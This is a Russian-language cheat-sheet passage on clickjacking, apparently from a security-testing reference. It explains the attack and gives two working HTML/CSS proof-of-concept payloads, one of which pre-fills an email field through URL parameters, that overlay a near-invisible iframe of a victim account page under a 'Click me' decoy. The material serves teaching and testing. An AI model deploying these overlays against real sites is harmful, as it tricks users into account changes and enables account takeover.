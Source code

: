 * При атаке кликджекинга пользователя обманным путём заставляют нажать на элемент веб-страницы, который либо невидим, либо замаскирован под другой элемент. Эта манипуляция может привести к непредвиденным последствиям для пользователя, таким как загрузка вредоносного ПО, перенаправление на вредоносные веб-страницы, предоставление учётных данных или конфиденциальной информации, денежные переводы или онлайн-покупка товаров.
```
<style>
    iframe {
        position:relative;
        width:600;
        height: 600;
        opacity: 00000.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:560;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https:/victim.net/my-account"></iframe>
```
> Атаки Clickjacking не защищаются CSRF-токеном, поскольку целевой сеанс устанавливается с загрузкой контента с подлинного веб-сайта, и все запросы выполняются внутри домена.


# Кликджекинг с предварительно заполненными данными формы

* Некоторые веб-сайты, требующие заполнения и отправки форм, позволяют предварительно заполнять поля формы с помощью GET-параметров перед отправкой. Другие веб-сайты могут требовать текст перед отправкой формы. Поскольку значения GET являются частью URL-адреса, целевой URL-адрес может быть изменен для включения значений.

```
<style>
    iframe {
        position:relative;
        width:600;
        height: 600;
        opacity: 00000.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https:/victim.net/my-account?email=test%40test.test"></iframe>
```
